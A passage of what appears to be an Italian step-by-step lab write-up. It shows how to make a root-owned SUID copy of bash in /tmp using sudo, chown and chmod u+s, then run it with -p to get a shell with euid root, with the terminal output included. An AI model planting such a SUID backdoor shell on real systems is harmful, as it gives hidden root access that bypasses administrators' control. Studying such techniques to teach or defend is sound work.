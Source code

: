 **Output:**
```
-rwsr-sr-x 1 alessandro alessandro 1100536 19 lug 11.59 /tmp/bash
```

Non è root, quindi dobbiamo cambiare proprietario manualmente.

### Step 3: Cambio Proprietario

```bash
sudo chown root:root /tmp/bash
```

### Step 4: Verifica Permessi

```bash
ls -l /tmp/bash
```

**Output:**
```
-rwxr-xr-x 1 root root 1100536 19 lug 11.59 /tmp/bash
```

Il SUID non è attivo, quindi dobbiamo cambiare i permessi:

```bash
sudo chmod u+s /tmp/bash
```

### Step 5: Verifica Finale

```bash
ls -l /tmp/bash
```

**Output:**
```
-rwsr-xr-x 1 root root 1100536 19 lug 11.59 /tmp/bash
```

### Step 6: Esecuzione Exploit

```bash
/tmp/bash -p
```

Dove `-p` sta per "privileged mode" (modalità privilegiata).

**Risultato:**
```bash
bash-5.2# id
uid=1000(alessandro) gid=1000(alessandro) euid=0(root) gruppi=1000(alessandro),3(sys),90(network),98(power),991(lp),998(wheel)
bash-5.2# cd /root
bash-5.2# pwd
/root
bash-5.2# 
```
